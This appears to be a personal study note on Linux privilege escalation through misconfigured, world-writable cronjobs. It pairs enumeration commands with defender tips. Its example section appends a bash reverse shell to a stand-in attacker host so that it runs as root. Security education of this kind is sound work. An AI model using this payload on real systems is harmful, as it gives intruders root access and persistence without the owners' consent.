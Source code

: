 ```yaml
---
ID: LIX003  
Date: 07/08/2025  
Tags: #linux #privesc #cron #enumeration #persistence  
Category: Linux  
---
```


# LIX003 – Writable Cronjobs

## 🧠 What I Learned

In Linux, **cronjobs** are scheduled tasks that run automatically at defined intervals. If a cronjob is misconfigured — for example, pointing to a **script or binary a low-privileged user can modify** — it can be exploited to escalate privileges or maintain persistence.

---

## 🔍 Finding Cronjobs

To view system-wide cronjobs:

```bash
cat /etc/crontab  
ls -la /etc/cron*  
crontab -l  
ls -la /var/spool/cron/
```
You’re looking for jobs that:
- Run as **root**
- Point to scripts in **world-writable or user-writable locations**

---

## 💣 Exploitable Example

You find this in `/etc/crontab`:

```bash

* * * * * root /home/dev/backup.sh
```
Then you check:

```bash
ls -la /home/dev/backup.sh  
-rwxrwxrwx 1 dev dev 1234 Jul 5 09:00 backup.sh
```
There it is, world-writable script **run by root every minute**.

Add your payload:

```bash
echo "bash -i >& /dev/tcp/attacker-ip/4444 0>&1" >> /home/dev/backup.sh
```
Wait for cron to run → **root reverse shell lands**.

---

## 🔐 Detection & Enumeration

- Look for `root`-owned jobs running user-controlled scripts
- Check for writable directories like `/opt/`, `/tmp/`, `/home/*/scripts/`
- Use `linpeas.sh`, `les.sh`, or `pspy` to watch for running jobs

---

## 🛡️ Defender Tips

- Never run root cronjobs that point to writable files  
- Use full paths in cron scripts  
- Secure scripts with root-only permissions:

```bash
chmod 700 /root/scripts/backup.sh  
chown root:root /root/scripts/backup.sh
```
---

## 🔗 Resources

- [HackTricks – Writable Cron](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-cron-jobs)  
- [GTFOBins – Crontab](https://gtfobins.github.io/gtfobins/crontab/)  
- [Linux crontab(5) man page](https://man7.org/linux/man-pages/man5/crontab.5.html)

---
